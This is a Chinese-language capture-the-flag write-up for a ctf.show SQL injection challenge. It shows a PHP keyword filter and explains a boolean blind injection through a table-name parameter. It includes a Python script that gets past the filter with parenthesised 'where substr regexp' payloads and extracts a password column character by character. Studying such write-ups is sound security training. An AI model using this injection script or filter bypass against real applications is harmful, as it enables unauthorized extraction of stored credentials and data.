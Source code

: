 返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

查询结果

```
//返回用户表的记录总数
      $user_count = 0;
```

题目大概的意思就是我们传入表名进行查询，如果表名正确，就会返回用户表记录总数1，如果表名错误则返回0，且每次最多只会返回1，根据这个我们可以尝试布尔盲注，如果我们知道表名(ctfshow_user)和列名(pass)，我们就能通过布尔盲注拿到flag

Y4tacker大佬的脚本

```
import requests

url = 'http://ee0ad3ab-e8f0-4183-97a8-aa3c5bcbe4f4.challenge.ctf.show/select-waf.php'
str = r"{abcdefghijklmnopqrstuvwsyz-0123456789}"
flag = ""
index = 0
while True:
    for i in str:
        data = {
            'tableName': f"(ctfshow_user)where(substr(pass,{index},1))regexp('{i}')"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 1;") > 0:
            flag += i
            print(flag)
            break
    index += 1
```

![image-20250207225938289](../assets/image-20250207225938289.png)
